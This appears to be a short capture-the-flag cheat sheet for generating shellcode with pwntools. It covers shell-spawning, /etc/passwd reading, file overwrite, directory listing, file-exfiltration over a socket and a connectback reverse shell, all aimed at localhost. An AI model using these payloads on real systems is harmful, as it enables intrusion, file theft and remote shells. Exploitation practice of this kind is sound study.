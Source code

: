 ## Shellcodes with pwntools

```
arch = [ 'linux', 'amd64', 'arm' ]

shell = 'sh', 'dupsh'
io    = 'cat', 'write_file', 'ls', 'sendfile'
nw    = 'connectback'
```


### sh 
* tested on i386, amd64

``shellcraft -c i386 sh -f r | strace -ifx demo32 -``

### dupsh
* tested on i386, amd64

``shellcraft -c i386 dupsh 1 -f r | strace -ifx demo32 -``

### cat
* tested on i386, amd64

``shellcraft -c i386 cat /etc/passwd  -f r | strace -ifx demo32 -``

### write_file = open_file + write_file 
* tested on i386, amd64

```python
s = 'this file has been overwritted by me'

sc = ''
sc += asm(shellcode.open_file('./flag', 0x2))
sc += asm(shellcode.write_file(3, s, len(s)))
```

### ls
* tested on i386
* have to write shellcode in amd64

``shellcraft -c i386 ls /etc -f r | demo32 -``

```python
sc += asm(shellcode.ls('/etc/', out_fd=4))

s = remote('localhost', 31337)
s.send(sc + '\n')
while 1:
    rv = s.recv(1540)
    if len(rv) == 0:
        break
    print parse_getdents(rv)
```

### sendfile = open_file + sendfile
* tested on i386, amd64 

```python
#!python

from pwn import *
context('i386', 'linux')

HOST = 'localhost'
PORT = 31337

s = remote(HOST, PORT)

sc = ''
sc += asm(shellcode.open_file('./flag'))
sc += asm(shellcode.sendfile(in_fd=3, out_fd=4))

s.send(sc + '\n')
print s.recvall()
```

### connectback
* tested on i386, amd64(unstable)

``shellcraft -c i386 connectback localhost 31338 3 -f r | nc localhost 31337``
